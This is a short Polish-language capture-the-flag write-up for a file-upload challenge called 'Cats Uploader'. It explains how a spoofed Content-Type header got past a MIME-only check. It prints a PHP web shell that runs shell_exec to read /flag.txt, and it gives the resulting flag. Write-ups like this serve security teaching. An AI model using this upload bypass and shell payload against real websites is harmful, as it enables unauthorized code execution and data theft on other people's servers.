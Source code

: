# Cats Uploader
![](14bcddfda4e9942c2790a6671720bb99)

Próba wysłania plik nie będącego zdjęciem, powoduje że pojawia się wiadomość `Mimetype is not image/png or image/jpeg.`. Spróbowałem więc wysłać plik ze zmienionym `Content-Type`. Aplikacja przyjeła ten plik. Napisałem złośliwy kod w PHP, który wyświetli flagę i spróbuję uruchomić w ten plik.

Kod:
```
<?php
$output = shell_exec('cat /flag.txt');
echo "<pre>$output</pre>";
exit;
?>
```

Napisałem program, który wysyła ten kod PHP i wchodzi na miejsce, gdzie został umieszczony wykonując złośliwy kod. Program zwraca flagę.

Kod: `solution/cats.py`

Flaga: `WSIZ{a1way5_v4lidat3_m0re_th4n_ju5t_4_m1me7ype}`